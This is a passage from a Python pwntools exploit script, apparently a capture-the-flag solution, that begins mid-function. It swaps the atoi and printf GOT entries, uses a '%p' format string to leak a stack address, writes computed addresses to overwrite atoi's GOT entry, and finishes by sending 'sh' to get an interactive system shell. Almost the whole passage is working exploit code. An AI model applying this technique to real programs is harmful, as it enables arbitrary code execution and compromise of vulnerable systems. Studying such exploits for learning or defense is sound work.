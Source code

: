 ``` python
    s.recv()
    s.sendline(str(second).encode())
    return s.recv()

def swap(s):
    s.send(b"2")
    return s.recv()

def _exit(s):
    s.send(b"3")
    return s.recv()

def invalid(s):
    s.send(b"4")
    return s.recv()

def main():
    if(len(sys.argv) > 1):
        s = process(BINARY)
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    s.recv()

    # lazy binding printf
    invalid(s)

    # swap atoi <-> printf
    _set(s, elf.got['atoi'], elf.got['printf'])
    swap(s)
    s.send(b"%p")
    stack = int(s.recv().split(b"1.")[0], 16)
    offset_0x70 = stack - 0xa15
    offset_0xed = stack - 0xe2e
    log.info(f"stack : {hex(stack)}")
    log.info(f"addr of 0x70 : {hex(offset_0x70)}")
    log.info(f"addr of 0xed : {hex(offset_0xed)}")

    # restore printf <-> atoi
    s.send(b"BB")
    s.recv()

    # collect data and overwrite to atoi.got
    _set(s, bp['free_space'] + 6, offset_0x70)
    swap(s)
    _set(s, bp['free_space'] + 7, offset_0xed)
    swap(s)
    _set(s, bp['free_space'], elf.got['atoi'] - 6)
    swap(s)

    # system("sh");
    s.send(b"sh")

    s.interactive()

if __name__=='__main__':
    main()
```